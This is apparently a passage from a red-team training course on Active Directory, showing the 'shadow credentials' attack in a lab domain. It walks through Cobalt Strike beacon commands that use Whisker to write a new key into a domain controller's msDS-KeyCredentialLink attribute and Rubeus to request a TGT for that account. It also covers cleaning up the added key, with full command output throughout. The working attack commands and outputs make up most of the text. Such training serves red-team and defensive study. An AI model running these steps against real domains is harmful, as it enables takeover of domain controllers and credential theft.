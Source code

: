 Whilst Kerberos pre-authentication is typically carried out using a symmetric key derived from a client's password, asymmetric keys are also possible via Public Key Cryptography for Initial Authentication (PKINIT).  If a PKI solution is in place, such as Active Directory Certificate Services (next chapter), the domain controllers and domain members exchange their public keys via the appropriate Certificate Authority.  This is called the Certificate Trust model.

There is also a Key Trust model, where trust is established based on raw key data rather than a certificate.  This requires a client to store their key on their own domain object, in an attribute called `msDS-KeyCredentialLink`.  The basis of the "shadow credentials" attack is that if you can write to this attribute on a user or computer object, you can obtain a TGT for that principal.  As such, this is a DACL-style abuse as with RBCD.

Along with his excellent [blog post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) on the subject, [Elad Shamir](https://twitter.com/elad_shamir) published a tool called [Whisker](https://github.com/eladshamir/Whisker), which makes exploiting this very easy.  First, we want to list any keys that might already be present for a target - this is important for when we want to clean up later.
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
[*] No entries!
```
  

Add a new key pair to the target.
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password y52EhYqlfgnYPuRb
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```
 /no  

And now, we can ask for a TGT using the Rubeus command that Whisker provides.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=dc-2$ 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\dc-2$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIGaj [...snip...] MuaW8=

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  dc-2$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  1/21/2023 7:12:27 PM
  EndTime                  :  1/22/2023 5:12:27 AM
  RenewTill                :  1/28/2023 7:12:27 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  bKJ76Br5CFOL6zckBpl9IA==
  ASREP (key)              :  B0AA392AE0C969E268DAC4462D76FC90
```
  

Whisker's `clear` command will remove any and all keys from msDS-KeyCredentialLink.  This is a bad idea if a key was already present, because it will break legitimate passwordless authentication that was in place.  If this was the case, you can list the entries again and only remove the one you want.
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
    DeviceID: 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403 | Creation Time: 1/21/2023 7:19:04 PM
```

```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Found value to remove
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```